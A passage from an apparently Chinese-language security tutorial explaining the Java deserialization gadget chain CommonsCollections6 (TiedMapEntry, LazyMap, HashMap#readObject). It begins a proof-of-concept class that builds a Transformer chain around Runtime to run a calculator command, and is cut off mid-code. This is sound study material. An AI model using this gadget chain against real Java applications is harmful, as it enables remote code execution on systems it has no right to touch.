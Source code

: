 接着跟进`this.getValue()`方法
![image-20221004220012400](images/image-20221004220012400.png)

可以看到在`getValue()`中调用了`map.get()`方法，并且`map`和`key`都是通过构造函数传入，完全可控，所以可以通过构造传参调用到`LazyMap#get()`，满足了我们的期望。

接下来就是寻找可以调用`TiedMapEntry#hashCode()`，在前面已经学习过的[URLDNS利用链分析](./02-反序列化专区/0-URLDNS利用链/URLDNS利用链.md)章节中，我们已经知道在`HashMap#readObject()`里，`putVal()`方法对`key`进行了`hash()`计算，进而调用传进来的`key`的`hashCode()`的方法。

因此我们只要让`key`为`TiedMapEntry`对象，就可以完成整个攻击链。开始编写初始 POC：
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
```